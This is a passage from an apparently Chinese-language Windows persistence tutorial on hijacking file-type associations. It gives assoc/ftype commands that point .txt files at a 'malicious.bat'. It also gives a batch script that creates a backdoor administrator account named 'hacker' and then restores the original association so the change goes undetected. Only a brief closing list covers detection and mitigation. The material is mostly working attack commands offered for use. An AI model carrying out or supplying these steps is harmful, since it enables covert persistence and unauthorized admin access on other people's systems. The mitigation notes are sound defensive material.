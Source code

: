 2. **选择一个文件类型：**
   - 选择一个不常用但存在的文件类型。例如，`.txt` 文件。

3. **更改文件关联：**
   - 打开“命令提示符”并使用管理员权限运行。
   - 使用 `assoc` 命令查看当前文件类型关联：
     ```shell
     assoc .txt
     ```
     这将显示 `.txt` 文件当前关联的文件类型，例如：
     ```
     .txt=txtfile
     ```
   - 使用 `ftype` 命令查看该文件类型的当前打开方式：
     ```shell
     ftype txtfile
     ```
     这将显示类似以下内容：
     ```
     txtfile=%SystemRoot%\System32\NOTEPAD.EXE %1
     ```

4. **更改默认打开方式：**
   - 更改 `.txt` 文件的默认打开方式，使其执行你的恶意脚本。例如，将其修改为执行一个恶意的批处理脚本：
     ```shell
     ftype txtfile=C:\path\to\malicious.bat %1
     ```
     例如：
     ```shell
     ftype txtfile=C:\Windows\System32\malicious.bat %1
     ```

##### 恢复默认关联：

为了确保系统能够正常运行且不被检测，你需要一种方式来恢复文件关联。可以通过另一个脚本在执行恶意操作后恢复关联：
```bat
@echo off
rem 执行恶意操作
net user hacker MyPassword123 /add
net localgroup administrators hacker /add

rem 恢复原始关联
ftype txtfile=%SystemRoot%\System32\NOTEPAD.EXE %1
```

##### 监控与检测：

为了防止此类攻击，管理员应：
1. **监控文件关联更改：** 使用安全软件或脚本监控注册表和文件关联设置。
2. **限制权限：** 限制用户更改系统文件类型关联的权限。
3. **定期审计：** 定期检查系统文件类型关联和可疑的文件类型打开方式。



#### Winlogon用户登陆初始化
